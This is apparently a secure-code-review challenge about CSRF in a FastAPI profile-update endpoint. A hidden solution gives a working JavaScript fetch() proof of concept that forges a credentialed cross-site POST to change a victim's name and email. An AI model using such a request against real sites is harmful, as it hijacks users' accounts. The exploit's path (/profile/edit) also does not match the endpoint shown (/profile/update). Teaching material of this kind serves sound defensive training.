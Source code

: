 # FastAPI CSRF
Is this code vulnerable to CSRF? If so, drop the exploit code ;)
```python
from fastapi import FastAPI, HTTPException, Depends, Response, Request
from pydantic import BaseModel
from typing import Dict, Optional

app = FastAPI()

# Class for validating input data when updating profile
class ProfileUpdate(BaseModel):
    email: str
    name: str

# Dependency function to get the current authenticated user (simplified for context)
async def get_current_user():
    # Logic to authenticate with access_token cookie and return current user details
    ...

@app.post("/profile/update", response_model=Dict[str, str])
async def update_profile(
    update_data: ProfileUpdate,
    current_user: Dict = Depends(get_current_user)
):
    # Check if the email is already used by another user
    # Replace '...' with the logic to check and raise HTTPException if email is taken
    ...

    cursor.execute("""
    UPDATE users SET email = ?, name = ? WHERE username = ?
    """, (update_data.email, update_data.name, current_user["username"]))
    conn.commit()

    return {"message": "Profile updated successfully"}
```
<details>
  <summary>Toggle to see the solution</summary>

  FastAPI, by default, parses the request body as JSON if the `Content-Type` header is not specified. We used this behavior to create the following CSRF exploit:
  ```javascript
    fetch('https://vulnerable-corp.com/profile/edit', {
        method: "POST",
        body: new Blob([JSON.stringify({name: "pwn", email: "pwn@pwn.com"})]),
        credentials: "include",
    }).catch(error => console.error("Error:", error));
  ```
</details>
